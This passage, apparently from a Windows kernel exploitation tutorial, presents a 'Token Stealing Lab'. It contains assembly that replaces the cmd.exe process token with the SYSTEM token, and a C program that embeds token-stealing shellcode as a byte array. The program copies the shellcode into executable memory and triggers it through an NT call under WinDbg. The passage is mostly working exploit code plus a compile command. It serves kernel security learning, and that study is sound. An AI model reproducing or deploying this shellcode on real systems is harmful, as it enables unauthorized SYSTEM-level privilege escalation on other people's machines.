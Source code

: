Finally, we overwrite the existing `cmd.exe` token (stored in `rcx`) with the System token (stored in `rdx`):
```nasm
mov rdx, qword ptr [rdx]
mov qword ptr [rcx], rdx
ret
```

### Token Stealing Lab
First, let’s create a C program that allocates a usermode buffer. Then, we’ll trigger an NT function from WinDbg with a breakpoint, which allows us to see the buffer in context.
```cpp
#include <stdio.h>
#include <windows.h>
#include <ktmw32.h>

#pragma comment(lib,"KtmW32.lib")

// buffer que vamos a asignar para que el kernel lo ejecute
char charShellcode[] = {
	0x90, 0x65, 0x4C, 0x8B, 0x0C, 0x25, 0x88, 0x01, 0x00, 0x00, 
	0x4D, 0x8B, 0x89, 0x20, 0x02, 0x00, 0x00, 0x4D, 0x8B, 0x81, 
	0x40, 0x05, 0x00, 0x00, 0x4D, 0x8B, 0x89, 0x48, 0x04, 0x00, 
	0x00, 0x49, 0x81, 0xE9, 0x48, 0x04, 0x00, 0x00, 0x4D, 0x8B, 
	0x91, 0x40, 0x04, 0x00, 0x00, 0x4D, 0x39, 0xC2, 0x75, 0xE6, 
	0x4C, 0x89, 0xC8, 0x48, 0x05, 0xB8, 0x04, 0x00, 0x00, 0x4D, 
	0x8B, 0x89, 0x48, 0x04, 0x00, 0x00, 0x49, 0x81, 0xE9, 0x48, 
	0x04, 0x00, 0x00, 0x4D, 0x8B, 0x91, 0x40, 0x04, 0x00, 0x00, 
	0x49, 0x83, 0xFA, 0x04, 0x75, 0xE5, 0x4D, 0x8B, 0x89, 0xB8, 
	0x04, 0x00, 0x00, 0x4C, 0x89, 0x08, 0xC3, 0x90, 0x90, 0x90
};

int main() {

	printf("\nAllocating Kernel Shellcode...\n");

	// asignamos el espacio
	PVOID pShellcode = VirtualAlloc(nullptr, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	RtlSecureZeroMemory(pShellcode, 0x1000);

	memcpy(pShellcode, charShellcode, 100);
	
	VirtualLock(pShellcode, 0x1000);

	printf("\n[SHELLCODE ADDRESS] 0x%p\n", pShellcode);
	printf("\nPress <ENTER> to free the memory\n");
	getchar();

	CreateTransaction(NULL, 0, 0, 0, 0, 0, NULL);

	return 0;
}
```
Once the shellcode is written, compile it using nasm:
```
nasm -f bin MyTokenElevate.asm
```
